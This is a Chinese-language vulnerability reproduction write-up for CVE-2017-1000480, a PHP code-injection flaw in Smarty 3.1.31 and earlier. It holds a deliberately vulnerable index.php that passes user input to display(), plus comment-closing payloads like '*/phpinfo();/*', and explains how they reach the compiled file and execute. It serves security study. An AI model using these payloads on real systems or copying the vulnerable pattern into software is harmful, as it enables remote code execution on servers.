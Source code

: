 （CVE-2017-1000480）Smarty\<=3.1.31 命令执行RCE
===============================================

一、漏洞简介
------------

在不清理模板名称的自定义资源上调用fetch（）或display（）函数时，3.1.32之前的Smarty
3容易受到PHP代码注入的攻击。

二、漏洞影响
------------

Smarty\<=3.1.31、3.1.32-dev

三、复现过程
------------

### 1、搭建环境

测试环境为： PHP5.6.40+Apache2+Smarty3.1.31+Debian9

    ➜  html mkdir smarty
    ➜  html cd smarty
    ➜  smarty mkdir cache compile templates
    ➜  smarty composer require smarty/smarty -v
    ➜  smarty sed -i -e 's/\^3.1/3.1.31/g' composer.json
    ➜  smarty composer update
    ➜  smarty sudo chmod -R 777 .

/var/www/html/smarty/index.php 如下：

    <?php
    require './vendor/autoload.php';

    class Smarty_Resource_Widget extends Smarty_Resource_Custom
    {
        protected function fetch($name, &$source, &$mtime)
        {
            $template = "Smarty <=3.1.31 RCE (CVE-2017-1000480)";
            $source = $template;
            $mtime = time();
            return 'mochazz';
        }
    }

    $smarty = new Smarty();
    $smarty->setCacheDir('cache');
    $smarty->setCompileDir('compile');
    $smarty->setTemplateDir('templates');

    $my_security_policy = new Smarty_Security($smarty);
    $smarty->enableSecurity($my_security_policy);
    $smarty->registerResource('username', new Smarty_Resource_Widget());
    $smarty->display('username:'.$_GET['mochazz']);

    ?>

### 2、漏洞分析

具体攻击 payload 如下：

    http://0-sec.org/index.php?mochazz=*/phpinfo();/*

![](./resource/(CVE-2017-1000480)Smarty<=3.1.31命令执行RCE/media/rId26.jpg)

我们直接从 display 方法开始跟进，会发现其最终会调用 render 方法。在
render
方法分别进行了：生成compile文件名、写入compile文件并包含两个操作。

![](./resource/(CVE-2017-1000480)Smarty<=3.1.31命令执行RCE/media/rId27.jpg)

在第一个操作：生成compile文件名时，我们传入 display 的参数会影响最终的
compile 文件名。例如下面两个 payload 生成的文件名是不一样的。

    # 代码：$smarty->display('username:'.$_GET['mochazz']);

    # payload1：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();/*
    4f97532c32c10229713a39421c918cf16663bf6e_0.username.*.php

    # payload2：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//
    1e95a2d156a7edd4f6130643849a588dce4acb27_0.username.phpinfo();.php

这是因为 compile 文件名中，有一部分由 basename(\$source-\>name)
决定，这部分就是我们传入的 mochazz 参数。使用上面第一个 payload
时，文件名就会包含 *号。在 Linux 系统下，文件名允许包含* 号，但是
Windows 却不允许，这也是网络上部分文章说这个漏洞无法在 Windows
平台下利用。但是我们使用第二个 payload ，两个平台就都可以利用。

我们接着看第二个操作：写入 compile 文件并包含。首先，写入 compile
文件中的内容包含模板路径（即下图最后一行代码
\$\_template-\>source-\>filepath ），这个模板路径就是我们传入 display
方法的参数。虽然该参数被注释包裹，但是我们可以用 \*/ 闭合。写入 compile
文件，程序就开始包含该文件，最终导致代码执行（下图第137行）。

image
